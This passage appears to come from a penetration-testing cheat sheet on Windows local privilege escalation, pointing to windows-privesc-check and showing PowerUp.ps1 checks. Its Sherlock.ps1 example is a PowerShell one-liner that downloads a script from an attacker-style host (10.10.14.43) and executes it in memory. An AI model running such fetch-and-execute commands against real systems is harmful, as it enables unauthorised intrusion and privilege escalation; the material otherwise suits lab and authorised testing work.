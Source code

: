 {% embed url="https://github.com/pentestmonkey/windows-privesc-check" %}

Or try with PowerUp.ps1 to find some hidden hints

```
PS C:\> powershell.exe import-module .\PowerUp.ps1
PS C:\> Invoke-AllChecks
```

#### Sherlock.ps1

PowerShell script to quickly find missing software patches for local privilege escalation vulnerabilities.

```
powershell “IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.43/Sherlock.ps1'); Find-AllVulns”
```



